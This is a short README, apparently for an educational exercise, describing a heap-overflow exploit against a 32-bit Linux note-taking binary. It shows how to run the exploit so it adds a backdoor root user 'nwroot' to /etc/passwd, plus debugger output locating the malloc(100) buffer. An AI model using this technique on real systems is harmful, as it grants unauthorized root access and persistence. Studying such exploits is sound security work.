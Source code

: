 # How to use
1. Exploit only works on 32bit Linux Systems
2. chmod +x readnotes && chmod +x exploit
3. ./exploit
4. cat /etc/passwd
   - You'll see a new root user has been created call
   nwroot. Login:
     - su nwroot
     - password
5. You now got root as a local user by exploiting the heap

# How we noticed the overflow
1. root:~# ./readnotes "testnotes"
   - [DEBUG] buffer   @ 0x8a3c160: 'testnotes'
   - [DEBUG] datafile @ 0x8a3c1d0: '/var/notes'
   - [DEBUG] file descriptor is 3
   - Note has been saved.

2. root:~# gdb ./readnotes
   - (gdb) disas main
   - (gdb) 0x08048854 <+23>:	push   $0x64
           0x08048856 <+25>:	call   0x80486e2 <ec_malloc>

- this means the variable that holds the string to send to /var/notes
is allocated 0x64 bytes == malloc(100)
